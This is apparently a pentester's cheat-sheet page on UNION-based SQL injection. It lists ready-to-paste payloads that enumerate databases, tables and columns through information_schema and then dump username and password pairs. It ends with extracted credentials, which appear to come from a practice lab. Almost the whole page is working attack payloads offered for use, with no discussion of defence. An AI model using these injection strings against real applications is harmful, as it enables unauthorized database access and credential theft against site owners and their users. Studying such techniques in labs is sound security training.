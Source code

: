 # Listing db, table and columns

## Listing databases

IMPORTANT: Group\_concat() is optional, but it allows that if there is more than one DB,table or column to print it all in a single row, otherwise, only first data will be printed

' UNION select group\_concat(schema\_name), NULL from information\_schema.schemata-- -

<figure><img src="../../.gitbook/assets/2024-02-15 07_46_48-kali-linux-2022.4-virtualbox-amd64 [Corriendo] - Oracle VM VirtualBox _ 1.png" alt=""><figcaption></figcaption></figure>

The last command dumps all databases, we'll know try to enumerate each one of those DB's till we find some sensitive data like users or passwords.

## Listing tables:

' UNION select table\_name, NULL from information\_schema.tables where table\_schema = 'insert table name'-- -

or&#x20;

' UNION select group\_concat(table\_name), NULL from information\_schema.tables where table\_schema = 'insert table name'--&#x20;

## Listing all the tables

' union select table\_name, NULL from information\_schema.tables-- -

## Listing columns:

' UNION select NULL, column\_name from information\_schema.columns where table\_schema='DB' and table\_name='table'-- -'

<figure><img src="../../.gitbook/assets/enumerating columns sql.png" alt=""><figcaption></figcaption></figure>

## Listing data:

## Option#1

\
' union select username,password from (table name without parenthesis)-- -

## Option 2

' union select NULL,group\_concat(username,';',password) from (table name without parenthesis)-- -

<figure><img src="../../.gitbook/assets/2024-02-15 13_21_28-.png" alt=""><figcaption></figcaption></figure>

## Option 3

' UNION SELECT NULL,username || '\~' || password FROM (table name without parenthesis)--

## Result:

administrator\~s3cure\
wiener\~peter\
carlos\~montoya
